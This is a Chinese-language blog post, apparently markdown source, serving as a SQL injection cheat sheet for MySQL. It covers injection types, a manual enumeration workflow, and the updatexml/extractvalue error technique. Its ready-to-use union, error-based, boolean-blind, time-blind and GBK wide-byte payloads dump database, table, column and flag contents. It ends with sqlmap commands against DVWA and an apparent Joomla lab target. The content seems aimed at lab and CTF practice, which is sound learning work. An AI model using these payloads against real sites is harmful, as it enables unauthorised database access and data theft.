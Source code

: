 ```yaml
---
layout: post
title: SQL注入漏洞
subtitle: SQL Injection
date: 2025-07-09 14:58
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - MySQL
  - 安全
published: true
---
```

## 1. SQL注入分类

```
按SQLMap中的分类来看，SQL注入类型有以下 5 种：
UNION query SQL injection（可联合查询注入）
Stacked queries SQL injection（可多语句查询注入）
Boolean-based blind SQL injection（布尔型注入）
Error-based SQL injection（报错型注入）
Time-based blind SQL injection（基于时间延迟注入）
```

**手工注入常规思路：**

1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解 SQL 查询语句中的字段数
3. 确定显示的字段顺序
4. 获取当前数据库
5. 获取数据库中的表
6. 获取表中的字段名
7. 查询到账户的数据

**SELECT 特殊应用**

```sql
SELECT DATABASE();	-- 查看当前使用数据库
SELECT VERSION();	-- 版本
SELECT USER();		-- 查看当前登陆数据库用户
select @@datadir;	-- 数据路径
select @@basedir;	-- mysql安装路径
select @@version_compile_os;	-- mysql安装的所在os系统
```

## 2. 相关函数

相关函数：`UpdateXML()`, `ExtractValue()`, `concat()`, `substr()`
#### 2.1.1. UpdateXML(xml_doc,xpath_expr,new_xml)

此函数将xml_doc中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML，三个参数都为字符串。
xml_doc被替换的部分与xpath_expr提供的XPath表达式匹配。
如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_doc片段。

**报错原理**：利用concat(a_str,sql_str)构造不符合Xpath语法的字符串，导致其解析时报错，updatexml函数将返回报错内容，其中a_str用于让Xpath解析失败，sql_str为正确的能被解析的sql语句。
#### 2.1.2. ExtractValue(xml_doc, xpath_expr)

此函数是返回在xml_doc用xpath_expr路径匹配到的XML片段。报错原理与updatexml()相同。
#### 2.1.3. substr(str_target,pos,length)

对str_target字符串进行截取，从第pos位开始，返回长度为length的字符串。
其中，pos从1开始。
## 3. 手工注入
#### 3.1.1. 联合查询

```sql
-- 获取table
union select database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
-- 获取column
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'--+
-- or
union select database(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167--+
-- 获取表中值
union select database(),group_concat(flag) from flag--+
```
#### 3.1.2. 报错查询

```sql
# 获取数据库名
and extractvalue(1,concat(0x7e,database()))--+
# 获取表名
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))--+
# 获取列名
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag')))--+
# 获取字段值
and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flag),1,30)))--+
```
#### 3.1.3. 布尔盲注

```sql
# 猜数据库名长度
1 and length(database())=100--+
# 猜数据库字符值
1 and ascii(substr(database(),1,1))=100--+
# 猜表数量
1 and (select count(table_name) from information_schema.tables where table_schema=database())=100--+
# 猜表长度
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=100--+
# 猜表字段
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=100--+
# 猜列数量
1 and (select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag')=100--+
# 猜列长度
1 and length((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1))=100--+
# 猜列字段
1 and ascii(substr((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1),1,1))=100--+
# 猜数据值数量
1 and (select count(flag) from flag)=100--+
```
#### 3.1.4. 时间盲注

```sql
# 猜数据库名长度
1 and if(length(database())=100,sleep(3),0)--+
```
#### 3.1.5. 宽字节注入


使用条件：
编码格式：GBK, GBK2312等
过滤函数：mysql_real_escape_string, addslashes等

原理：为绕过转义处理，使转义字符与输入字符结合成一个新的字符，使其无法转义

```sql
'1%df' or 1=1 #

# 16进制ASCII
'-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 --+
# group by
'-1%df' union select 1,table_name,group_concat(column_name) from information_schema.columns where table_schema=database() group by table_name limit 3,1 --+
```

## 4. 工具注入

#### 4.1.1. sqlmap

```shell
# 获取数据库
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
# 获取表
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
# 获取列
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
# 获取数据
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs --batch
```

post 方式测试

```shell
sqlmap -r a.txt -p uname --dbs
```